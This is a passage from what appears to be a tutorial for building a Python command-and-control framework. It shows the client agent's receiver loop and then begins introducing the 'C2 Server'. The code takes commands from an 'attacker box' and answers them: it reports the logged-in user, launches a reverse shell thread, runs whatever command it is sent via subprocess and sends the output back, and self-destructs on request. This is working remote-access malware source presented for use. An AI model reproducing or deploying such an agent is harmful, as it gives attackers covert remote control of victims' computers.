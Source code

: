 ```python
def receiver(client):

    while True:
        try:
            #this checks to see if the agent is still alive and receiving data
            data=client.recv(1024)
        except:
            print("server must have died...time to hop off")
            client.close()
            os._exit(0) 
        data=data.decode('UTF-8') #get the commands we're sending from the attacker box
        
        if ":msg:" in data:
            print(data)
        if ":whoami:" in data:
            whoami=os.getlogin()
            client.send(whoami.encode())
       
        if ":shell:" in data: #start the reverse shell!
            exit_event.clear()
            
            handler_thread2 = threading.Thread(target=startrevshellcli)
            handler_thread2.daemon = True
            handler_thread2.start()
            while not exit_event.is_set():
                time.sleep(1)
        if "c0mm@nd" in data: #does a curl ifconfig.me to get public ip
            command=data.split("\n")
            command=command[1]
            print("command: ", command)
            proc = subprocess.Popen(command,
                            stdin=subprocess.PIPE,
                            stdout=subprocess.PIPE,
                            stderr=subprocess.PIPE)
            client.send(b"returned output: \n"+proc.stdout.read())
            proc.stdin.close()
            proc.terminate()
            
        if "self-destruct" in data: #kill the agent!
            client.close()
            os._exit(0) 
```

Okay, so the `Client` was easy.  The `Server`, which is our main command and control center, is a bit more complex.  I'm running the server code on Linux btw.  Feel free to run it on Windows if you're so inclined.  it'll work but it's a bit buggy at the moment.  I've tried to include some checks to help make things cooperate nicely, where it's operating system agnostic. 😄

***The C2 Server!!!***
-

> The Imports and other important stuff
